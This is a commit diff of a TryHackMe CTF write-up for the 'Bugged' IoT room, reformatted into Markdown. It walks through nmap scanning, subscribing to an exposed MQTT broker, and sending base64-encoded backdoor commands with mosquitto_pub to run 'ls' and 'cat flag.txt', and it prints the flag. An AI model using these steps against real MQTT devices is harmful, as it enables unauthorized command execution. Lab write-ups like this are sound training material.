

Before and after one commit to abubakar-shahid/TryHackMe-CTFs-Writeups, a Markdown page: Easy/Bugged/Bugged.md, 2 parts joined by grey strips. Shown: that part at 85% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Easy/Bugged/Bugged.md
+++ b/Easy/Bugged/Bugged.md
@@ -1,5 +1,15 @@
-First of all, run nmap on the ipaddress [nmap <IP_ADDRESS>]. But this did not give any open ports. So we have to move towards the scanning of all ports [nmap -p 1-65535 -T4 -Pn <IP_ADDRESS>] for aggressive scanning of all ports, which gave an open port [1883/tcp open mqtt]. MQTT is a standards-based protocol that's commonly used for data transmission between Internet of Things (IoT) devices and the cloud. It's designed for devices with limited network bandwidth or resource constraints, such as smart sensors and wearables.
-Now we will be subsribing to the service to see the communication using the tool [mosquitto_sub] : [mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "#"]. Here we are using [#] to subscribe to all topics. As a result, we can see some communication like:
+# Bugged
+
+## Challenge Information
+- **Challenge Name**: Bugged
+- **Category**: IoT Security
+- **Difficulty Level**: Easy
+
+## Analysis
+
+First of all, run nmap on the ipaddress `nmap <IP_ADDRESS>`. But this did not give any open ports. So we have to move towards the scanning of all ports `nmap -p 1-65535 -T4 -Pn <IP_ADDRESS>` for aggressive scanning of all ports, which gave an open port `1883/tcp open mqtt`. MQTT is a standards-based protocol that's commonly used for data transmission between Internet of Things (IoT) devices and the cloud. It's designed for devices with limited network bandwidth or resource constraints, such as smart sensors and wearables.
+
+Now we will be subscribing to the service to see the communication using the tool `mosquitto_sub`: `mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "#"`. Here we are using `#` to subscribe to all topics. As a result, we can see some communication like:
 ```
 {"id":129618052497693049,"color":"GREEN","status":"ON"}
 {"id":1909226905601607364,"in_use":true,"temperature":159.55472,"toast_time":130}
@@ -17,20 +28,28 @@ The suspecious thing here is the base64 string. Lets decode it using Cuberchef,
 ```
 {"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
 ```
+
 Here we got:
-->The Device ID: "id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d". This is a UUID representing a unique identifier for the IoT device.
-->Registered Commands: "registered_commands":["HELP","CMD","SYS"]. The device recognizes the commands HELP, CMD, and SYS, likely for remote control or debugging purposes.
--> Publish Topic: "pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub". The device uses this topic to publish data.
--> Subscribe Topic: "sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub". The device listens to this topic for commands or instructions.
+- The Device ID: "id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d". This is a UUID representing a unique identifier for the IoT device.
+- Registered Commands: "registered_commands":["HELP","CMD","SYS"]. The device recognizes the commands HELP, CMD, and SYS, likely for remote control or debugging purposes.
+- Publish Topic: "pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub". The device uses this topic to publish data.
+- Subscribe Topic: "sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub". The device listens to this topic for commands or instructions.
 
-Now we will subscribe to the publish topic to see the device's outgoing messages: [mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"]. Simultaneously, run [mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "HELP"] in different terminal to send the message. From this, we will receive a base64 string in the terminal where we subscribed the publish topic [SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=].
+Now we will subscribe to the publish topic to see the device's outgoing messages: `mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"`. Simultaneously, run `mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "HELP"` in different terminal to send the message. From this, we will receive a base64 string in the terminal where we subscribed the publish topic `SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=`.
+
 Decode this string and it will give:
 ```
 Invalid message format.
 Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
 ```
-So, we came to know the exact format for running the command. Encode the following into base64: [{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}], it will give an encoding [eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==]. Actually we are trying to execute [ls] command.
 
-Again send this as a message to the terminal: [mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ=="]. This time, we will receive a base64 encoding [eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9]. Decode this and it will give [{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}]. It means that the file for the flag is present in the same directory.
-Hence, we will modify the command again get the response on the subscribed terminal. Encode [{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}] into base64 and send it in the terminal [mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0="]. In the subscribed terminal, we will recieve [eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9].
-Decode it and it will reveal the flag [{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{18d44fc0707ac8dc8be45bb83db54013}\n"}].
+So, we came to know the exact format for running the command. Encode the following into base64: `{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}`, it will give an encoding `eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==`. Actually we are trying to execute `ls` command.
+
+Again send this as a message to the terminal: `mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ=="`. This time, we will receive a base64 encoding `eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9`. Decode this and it will give `{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}`. It means that the file for the flag is present in the same directory.
+
+Hence, we will modify the command again get the response on the subscribed terminal. Encode `{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}` into base64 and send it in the terminal `mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0="`. In the subscribed terminal, we will receive `eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9`.
+
+Decode it and it will reveal the flag `{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{18d44fc0707ac8dc8be45bb83db54013}\n"}`.
+
+## Flag
+`flag{18d44fc0707ac8dc8be45bb83db54013}`
````
Also changed, not shown: other parts of Easy/Bugged/Bugged.md (+2 -1 lines).
